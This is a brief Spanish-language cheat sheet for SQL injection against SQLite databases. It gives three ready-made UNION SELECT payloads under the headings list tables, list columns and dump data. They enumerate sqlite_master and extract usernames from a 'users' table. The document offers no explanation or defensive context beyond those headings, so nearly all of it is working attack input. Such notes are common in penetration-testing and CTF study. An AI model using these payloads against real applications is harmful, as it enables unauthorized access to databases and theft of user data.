 # Sqlite

## Listar tablas
```null
union select 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

## Listar columnas
```null
union select 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -
```

## Dumpear datos
```null
union select 1,group_concat(username),3,4 FROM users-- -
```